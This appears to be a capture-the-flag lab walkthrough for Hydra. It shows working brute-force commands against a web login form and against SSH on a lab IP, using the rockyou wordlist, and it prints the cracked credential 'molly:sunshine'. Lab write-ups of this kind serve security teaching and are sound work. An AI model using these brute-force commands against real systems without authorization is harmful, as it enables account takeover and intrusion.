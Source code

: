 The form and parameters to use with Hydra for Post-Web-Form are:

```bash
sudo hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.226.238 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."
```

* user (-l): molly
* wordlist (-P): /usr/share/wordlists/rockyou.txt
* IP: 10.10.226.238
* method: http-post-form "/login:username=^USER^\&password=^PASS^:
* error message: Your username or password is incorrect."

```bash
sudo hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.226.238 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."
```

<figure><img src="../../.gitbook/assets/Schermata del 2023-07-08 18-05-24.png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
molly:sunshine
{% endhint %}

We can login using them and finding flag1.

<details><summary>🚩 Flag 1</summary></details>

### Task 2 - Use Hydra to bruteforce molly's SSH password. What is flag 2?

The form and parameters to use with Hydra for SSH are:

```bash
sudo hydra -l <username> -P <full path to pass> $IP -t 4 ssh
```

* user (-l): molly
* wordlist (-P): /usr/share/wordlists/rockyou.txt
* IP: 10.10.226.238
* port: ssh

```bash
sudo hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.226.238 ssh
```

<figure><img src="../../.gitbook/assets/Schermata del 2023-07-08 18-06-05.png" alt=""><figcaption></figcaption></figure>
